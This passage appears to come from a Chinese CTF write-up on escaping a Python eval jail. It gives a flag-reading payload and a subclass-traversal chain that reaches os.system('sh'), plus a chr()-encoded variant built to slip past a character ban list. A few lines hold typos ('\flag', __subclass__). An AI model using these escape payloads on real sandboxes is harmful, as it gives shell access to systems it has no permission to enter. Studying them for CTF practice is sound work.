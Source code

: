 ### 法二

总payload：

```python
open('\flag').read()
```

依次输入：

```python
'/flag'
open(_)
_.read()
_()
```

## [HNCTF 2022 Week1]calc_jail_beginner_level1(JAIL)

> `__class__`：返回当前对象属于的类，例如`'a'.__class__`属于`str`类。
>
> `__base__`：返回当前类的基类。
>
> `__subclasses__`：返回当前类的所有子类。
>
> `__init__`：进行类的初始化操作。
>
> `__globals__`：返回全局变量。

BANLIST：

```
"'`ib
```

先通过以下语句得出所有子类：

```python
().__class__.__base__.__subclasses__()
```

因为“b”被禁，使用`getattr()`和`chr()`绕过。

payload1：

```python
getattr(getattr(().__class__,chr(95)+...+chr(95)),chr(95)+...+chr(95))()
```

找到类`os.wrap_close`，本题在$-4$位置。

总形式：

```python
().__class__.__base__.__subclass__()[-4].__init__.__globals__['system']('sh')
```

payload2：

```python
getattr(getattr(getattr(getattr(().__class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()[-4],chr(95)+chr(95)+chr(105)+chr(110)+chr(105)+chr(116)+chr(95)+chr(95)),chr(95)+chr(95)+chr(103)+chr(108)+chr(111)+chr(98)+chr(97)+chr(108)+chr(115)+chr(95)+chr(95))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(39)+chr(115)+chr(104)+chr(39))
```
